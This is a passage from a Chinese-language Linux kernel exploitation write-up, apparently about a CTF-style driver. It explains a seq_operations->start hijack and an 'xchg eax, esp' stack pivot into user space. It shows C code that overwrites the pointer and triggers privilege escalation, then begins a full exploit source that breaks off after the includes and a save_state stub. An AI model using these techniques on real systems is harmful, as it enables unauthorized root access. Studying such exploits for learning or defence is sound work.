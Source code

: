 



:::info 为什么 rax 会是 gadget 地址呢？这个函数为什么又能将栈迁移到用户态呢？

出于对这个问题的好奇，我简单的进行了调试。发现在 `mov rax, QWORD PTR [r15+0x58]` 处进行了定义，这个 `QWORD PTR [r15+0x58]` 可以猜想是 `m->op` 的地址，此时，为了调用 `m->op->start`，它又对 rax 进行了 `mov rax [rax+0]` 的操作，将 rax 赋值成了指针 `m->op->start`，因此，rax 也就是我们 gadget 的地址。



`xchg eax, esp` 落到用户态，这就是寄存器的特性所在了。在 64 位环境下，目的寄存器若是 32 位，则会将高 32 位清零，而如果是 16/8 位寄存器则不会清零。而内核态内存地址的高 32 位都是 1，清零便落到了用户态

:::



最后，我们将 gadget 的地址写到 `seq_operations->start` 上，调用 `read`，即可完成提权。

```c
  uint64_t *buf=malloc(0x20);
  memcpy(buf,recv,0x20);
  buf[0]=(uint64_t)gadget;
  write(dev_fd,(char *)buf,0x20);
  read(seq_fd,NULL,1);
```



最终 exp:

```c
// gcc --static exp.c -o exp

#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>
#include <signal.h>
#include <unistd.h>
#include <syscall.h>
#include <pthread.h>
#include <poll.h>
#include <linux/userfaultfd.h>
#include <linux/fs.h>
#include <sys/shm.h>
#include <sys/msg.h>
#include <sys/ipc.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/syscall.h>

#define PAGE_SIZE 0x1000

struct info
{
  uint64_t idx;
  char *ptr;
};


int dev_fd;
uint64_t user_cs,user_ss,user_eflag,user_rsp;

void save_state()
```